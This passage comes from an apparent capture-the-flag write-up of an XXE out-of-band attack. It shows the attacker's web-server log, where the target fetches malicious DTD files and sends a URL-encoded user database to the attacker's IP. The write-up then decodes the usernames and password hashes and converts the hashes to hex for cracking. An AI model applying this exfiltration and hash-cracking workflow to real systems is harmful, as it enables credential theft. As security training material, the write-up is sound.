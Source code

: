 ```console
10.10.16.197 - - [24/Feb/2024 12:55:53] "GET /oob.xml HTTP/1.1" 200 -
10.10.16.197 - - [24/Feb/2024 12:55:53] "GET /exfil.dtd HTTP/1.1" 200 -
10.10.16.197 - - [24/Feb/2024 12:55:53] "GET /?exfil=%3CUsers%3E%0D%0A%20%20%3CUser%3E%0D%0A%20%20%20%20%3CUserName%3EAdmin%3C/UserName%3E%0D%0A%20%20%20%20%3CPassword%3EwobS/AvKFPT5qP9FgQyh7C+kc+k+1rBzbOf7Oxfptw0=%3C/Password%3E%0D%0A%20%20%20%20%3CEmail%3Epost@example.com%3C/Email%3E%0D%0A%20%20%20%20%3CLastLoginTime%3E2007-12-05%2020:46:40%3C/LastLoginTime%3E%0D%0A%20%20%3C/User%3E%0D%0A%20%20%3C!--%0D%0A%3CUser%3E%0D%0A%20%20%20%20%3CUserName%3Emerlin%3C/UserName%3E%0D%0A%20%20%20%20%3CPassword%3E%3C/Password%3E%0D%0A%20%20%20%20%3CEmail%3Emark@email.com%3C/Email%3E%0D%0A%20%20%20%20%3CLastLoginTime%3E2023-08-11%2010:58:51%3C/LastLoginTime%3E%0D%0A%20%20%3C/User%3E%0D%0A--%3E%0D%0A%20%20%3CUser%3E%0D%0A%20%20%20%20%3CUserName%3Eguest%3C/UserName%3E%0D%0A%20%20%20%20%3CPassword%3EhJg8YPfarcHLhphiH4AsDZ+aPDwpXIEHSPsEgRXBhuw=%3C/Password%3E%0D%0A%20%20%20%20%3CEmail%3Eguest@email.com%3C/Email%3E%0D%0A%20%20%20%20%3CLastLoginTime%3E2023-08-12%2008:47:51%3C/LastLoginTime%3E%0D%0A%20%20%3C/User%3E%0D%0A%3C/Users%3E HTTP/1.1" 200 -
```
{: .wrap }

URL decoding the data we got, we see there are two users.
- `Admin`
- `guest`

```xml
<Users>
  <User>
    <UserName>Admin</UserName>
    <Password>wobS/AvKFPT5qP9FgQyh7C+kc+k+1rBzbOf7Oxfptw0=</Password>
    <Email>post@example.com</Email>
    <LastLoginTime>2007-12-05 20:46:40</LastLoginTime>
  </User>
  <!--
<User>
    <UserName>merlin</UserName>
    <Password></Password>
    <Email>mark@email.com</Email>
    <LastLoginTime>2023-08-11 10:58:51</LastLoginTime>
  </User>
-->
  <User>
    <UserName>guest</UserName>
    <Password>hJg8YPfarcHLhphiH4AsDZ+aPDwpXIEHSPsEgRXBhuw=</Password>
    <Email>guest@email.com</Email>
    <LastLoginTime>2023-08-12 08:47:51</LastLoginTime>
  </User>
</Users>
```

> Be careful with URL decoding due to the `+` found in password hashes.
{: .prompt-warning }

### Cracking the exfiltrated hashes

Converting the hashes we got from base64 to hex.

```console
$ echo wobS/AvKFPT5qP9FgQyh7C+kc+k+1rBzbOf7Oxfptw0= | base64 -d | xxd -p -c 32
c286d2fc0bca14f4f9a8ff45810ca1ec2fa473e93ed6b0736ce7fb3b17e9b70d

$ echo hJg8YPfarcHLhphiH4AsDZ+aPDwpXIEHSPsEgRXBhuw= | base64 -d | xxd -p -c 32
84983c60f7daadc1cb8698621f802c0d9f9a3c3c295c810748fb048115c186ec
```
```
Admin:c286d2fc0bca14f4f9a8ff45810ca1ec2fa473e93ed6b0736ce7fb3b17e9b70d
guest:84983c60f7daadc1cb8698621f802c0d9f9a3c3c295c810748fb048115c186ec
```
{: file="hashes.txt"}
